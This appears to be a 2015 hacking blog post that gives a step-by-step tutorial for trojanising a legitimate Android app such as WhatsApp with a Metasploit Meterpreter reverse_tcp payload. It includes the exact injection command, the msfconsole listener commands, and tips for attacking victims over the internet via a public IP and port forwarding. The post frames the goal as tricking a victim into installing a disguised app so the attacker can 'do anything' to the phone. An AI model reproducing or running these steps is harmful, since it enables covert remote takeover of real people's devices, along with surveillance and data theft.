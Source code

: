 ```yaml
---
date: 'Sat Dec 12 2015 02:30:19 GMT+0530 (India Standard Time)'
title: Embed a Metasploit Payload in an Original .apk File | Part 1 — The Easy Way
tags:
  - android
  - hacking
  - metasploit
  - kali-linux
---
```


Hi Fellas! I’m sure most of you, or at least those who have set a foot in the kingdom of hacking, have heard of Metasploit. Don’t be disappointed if you haven’t, because you’re in the right track. 

From Wikipedia,

> The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.


In a more informal language, it’s a tool which we can use to perform various kinds of hacks against a machine. The flagship payload which comes with the Metasploit Framework is the _Meterpreter_, which also has an Android version that comes as an .apk file. In case you are wondering what a payload is, it’s a program we can install on a victim’s system to compromise it. Normally we have to install the Meterpreter payload in the victims phone by any means—usually involving Social Engineering—and when the victim runs the application, we would get a direct connection to that phone remotely and we can use it to wreak havoc on it.

But since the payload app doesn’t look very legit, takes up only a few kBs, and doesn’t show anything when clicked on, the victim will probably uninstall it right away, or worse, wouldn’t install it at all. So we have to solve that problem.

Here’s where this tutorial comes in. I’m gonna show you how to take any .apk file, be it WhatsApp or Amazon or SnapChat, and embed the Meterpreter payload in that apk. To the victim it will look and behave exactly as the original app, so he will use it regularly without any doubt, letting you do anything you want to his phone.


### Pre-requisites

Just to be clear,  In this tutorial the operating system used is Kali Linux, which is a de facto standard OS for Penetration Testing—read, hacking. You should also install the latest version of _ApkTool_ and some libraries for the scripts to work properly.

To install the required libraries, enter this command at the console —
```console
$ sudo apt-get install lib32stdc++6 lib32ncurses5 lib32z1
```

And to get the latest version of _ApkTool_, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.


### Step 1

First of all grab the original apk from any of the numerous websites available. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in any folder, in this tutorial I will use the Root folder and a `WhatApp.apk` as example.

### Step 2

Download the Ruby script from [this link](https://github.com/SkullTech/apk-payload-injector) and save it in the same folder as that of the original apk.

### Step 3

Open a terminal, and type the following command:
```console
$ ruby apk-embed-payload.rb WhatsApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4895
```

In this example I’ve used 192.168.0.104 as the Local IP address, i.e. your IP address and 4895 as the port on your Computer through which the Meterpreter payload will connect back to you. Make sure to change it to the appropriate values, especially the IP, the `LPORT` can be set to any reasonable port no.

_NOTE_. If you are going to conduct this attack over the internet, be sure to put your public IP, not your local IP, in the `LHOST` option. You also may need to forward the port you’re using for this attack to work properly.

Once you run the command, if you are lucky, the script will do everything by itself and complete the whole process. But more than often it cannot determine to which Activity of the app it should bind the payload to, so it asks you to select it. In that case, leave the terminal open with the script at the prompt, and browse to `/root/original`.

Then open the `AndroidManifest.xml` file using any text editor you like and look for an `<activity>` tag which contains both the texts `.MAIN` and `.LAUNCHER`. When you find that tag, look for the `android:name` attribute of that tag and from there, note the name of that Activity.

At the prompt of the Ruby script, enter the number corresponding to the Activity name you had noted previously and press Enter.

This is the hardest step of all, so I’m posting some screenshots to make your life easier.

![Screenshot from 2015-12-12 01-44-01](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-12-01-44-01.png)
![Screenshot from 2015-12-12 01-43-27](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-12-01-43-27.png)


### PROFIT?!

If you did everything correctly, you should now get an .apk file in your root directory with the name `backdoored_WhatsApp.apk`. It will install and run just like the original app.

As for the listener, you should use `multi/handler` and set the corresponding options accordingly. Just run the following commands —

```console
msfconsole
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.0.104
set LPORT 4895
exploit
```

Now wait for the victim to run the app, when he does it, you will get a Meterpreter prompt in the terminal!

![Screenshot from 2015-12-18 14:32:55](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-18-143255.png)


### Note

You must have noticed I haven’t explained anything, rather asked you to blindly follow. As none of us wants to be a script-kiddie, we will learn how to do this manually in the next article. To be honest, I didn’t know how to successfully implement this until I found this script. After I saw that this script does what it promises, I learned the process by reverse-engineering it. Let us set that story apart for another article.

If you face any problem, don’t forget to mention it in the comments. I’ll try to help you in any way I can.

### Credits

I found the script from the comments section of a thread in _NullByte_, so thanks to the guy who shared it, I’m sorry I don’t remember which thread it was or who the guy was. And credit of making this script goes to _timwr_ and _Jack64_.

